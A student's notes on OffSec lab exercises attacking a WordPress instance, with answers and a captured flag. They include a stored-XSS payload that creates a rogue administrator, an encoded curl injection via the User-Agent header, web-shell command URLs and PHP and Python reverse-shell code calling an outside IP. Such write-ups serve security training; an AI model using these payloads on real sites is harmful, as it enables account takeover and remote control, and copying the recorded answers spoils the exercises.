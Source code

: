 
1. Start Walkthrough VM 1 and replicate the steps learned in this Learning Unit to identify the basic XSS vulnerability present in the Visitors plugin.
	   Based on the source code portion we have explored, which other HTTP header might be vulnerable to a similar XSS flaw?
```php
# download Visitor's code from https://downloads.wordpress.org/plugin/visitors-app.0.3.zip
# examine the function VST_save_record()
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
				$table_name,
				array(
					'patch' => $_SERVER["REQUEST_URI"],
					'datetime' => current_time( 'mysql' ),
					'useragent' => $_SERVER['HTTP_USER_AGENT'],
					'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
				)
			);
}
# NOTE:  http headers use '-' rather than '_'
```
>Answer:  X-FORWARDED-FOR


2. Start Walkthrough VM 2 and replicate the privilege escalation steps we explored in this Learning Unit to create a secondary administrator account. What is the JavaScript method responsible for interpreting a string as code and executing it?
```bash
# reread content with regards to sending encoded payload via curl
```

>Answer:  eval()


3. **Capstone Exercise**: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in **/tmp/**. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.
```javascript
// craft new user script
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";    //<--- note
var nonceRegex = /ser" value="([^"]*?)"/g;    //<--- note
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=ack&email=attacker@offsec.com&pass1=attackerpass&pass2=ackpass&role=administrator";    //<--- note
ajaxRequest new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);

// minify via www.jscompress.com
// put into an encoding script
function encode_to_javascript(string) {
                var input = string
                var output = '';
                for(pos = 0; pos < input.length; pos++) {
                        output += input.charCodeAt(pos);
                        if(pos != (input.length - 1)) {
                                output += ",";
                        }
                }
                return output;
        }
        
let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);')
console.log(encoded)

// navigate to about:blank & use Console tab in Dev Tools to run above script
// copy encoded result and use curl to send through to site via proxy
```
```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```
```php
# Login with admin/password
# Navigate to and hover over Visitor's plugin (bottom left pane)
# Click Start
# Login with attacker/attackerpass
# Navigate to Plugins > Add New (it takes awhile to load)
# Craft WP plugin (in php) for reverse shell
# sources for help:
	# https://github.com/leonjza/wordpress-shell
	# https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell
	# https://pentaroot.com/exploit-wordpress-backdoor-theme-pages
```

OK.  Tried the wordpress-shell from the 1st link up there ^.
Once installed, it's *supposed to* allow you to run the following curl command to get a reverse shell
```bash
curl -v "http://offsecwp/wp-content/plugins/shell/shell.php?$(python2.7 -c 'import urllib; print urllib.urlencode({"ip":"192.168.45.247","port":"5555"})')"
```
HOWEVER, not only did I get a "cannot activate plugin due to fatal error" from the site, I kept getting a "- Connection #0 to host offsecwp left intact" message before being kicked out of the connection.
NOW... after hitting up OSCP's \#support channel & them reverting the machine themselves, I *could* get a response from using the URL to push a nc connection:
```url
http://offsecwp/wp-content/plugins/shell/shell.php?cmd=nc%20<myIP>%20<portOfNcListener>
```
which would only spit back every command I threw at it, but never the output.... only stdin.
But - lightning bolt &&&&&& facepalm moment - this worked
```url
http://offsecwp/wp-content/plugins/shell/shell.php?cmd=cat%20/tmp/flag
```

NOW.  SUPPOSEDLY, editing a theme with the following PHP script and then navigating a new tab to said theme is also supposed to work (see pic below (but replace things like &lt; with < and &quot; with ")):
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip ='192.168.45.247'; // CHANGE THIS
$port = 5555; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
?>
```

FOR FUTURE:::::    Another student had similar issues down the line (ch 10).  Crafted his own rev shell.php: https://github.com/Sanjin84/pwnThings/blob/main/rev_shells/wordpress/wp-dynamic.php

Also, from OSCP \#support:
![](8.4.5_offsecSupport.png)
```bash
(python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.159",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')"
```
Reference:  https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python

>Answer:  OS{69dd7c20060d54f14b417036379c0637}


![](WP_themeHeader.png)